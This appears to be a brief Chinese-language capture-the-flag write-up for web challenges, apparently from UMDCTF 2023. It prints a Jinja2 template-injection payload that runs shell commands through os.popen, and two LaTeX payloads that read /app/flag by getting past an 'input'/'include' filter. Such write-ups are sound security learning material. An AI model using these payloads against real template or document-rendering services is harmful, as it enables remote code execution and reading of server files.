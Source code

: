 
# web
### Terps Ticketing System
签到题,只需要num=0,
### pop calc
经典计算器,猜测python eval字符逃逸

---
并不是...,而是在报错处 #SSTI ...
```python
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

### notsogeo
一道谷歌地图有关的


### Homework Render
一个简单的输入框,然后渲染为pdf文件

---
没想到考点是 #Latex 插入文件... 想到hackergame了
过滤了 `input` `include`
wp
```latex
% 定义文档类
\documentclass{article}
% 加载 verbatim 包
\RequirePackage{verbatim}
% 文档开始
\begin{document}
% 定义两个token寄存器 in 和 put
\newtoks\in
\newtoks\put
% 分别设置为 "in" "put"
\in={in}
\put={put}
% 在verbatim 环境输出文本
\begin{verbatim\the\in\the\put}{/app/flag}\end{verbatim\the\in\the\put}
\end{document}
```

```latex
\begin{document} 
\^^69nput{/app/flag} 
\end{document}
```
latex 遇到 ^^时,会将两个字符后面解释为16进制的ascii

### i heart wasm

>WebAssembly（缩写为Wasm）是一种新型的低级字节码格式，可用于在现代 Web 浏览器中运行高性能计算密集型应用程序。Wasm 旨在成为一种高效、可移植和安全的二进制格式，用于将应用程序从 Web 服务器传输到客户端，并在浏览器中进行本地编译和执行。
>Wasm 可以通过将高级编程语言（如 C、C++、Rust）编译为二进制格式来生成。由于 Wasm 是一个虚拟机（VM）环境，它提供了一个安全的沙盒环境，使得在 Web 上运行的程序无法访问底层系统资源，从而更加安全可靠。Wasm 还可以与 JavaScript 和 Web API 集成，使 Web 应用程序更加功能强大和高效。

不是我等凡人能碰的

# reverse

# pwn

# crypto

# Misc


---
*相关wp*
https://github.com/UMD-CSEC/UMDCTF-Public-Challenges





2023-04-30 17:58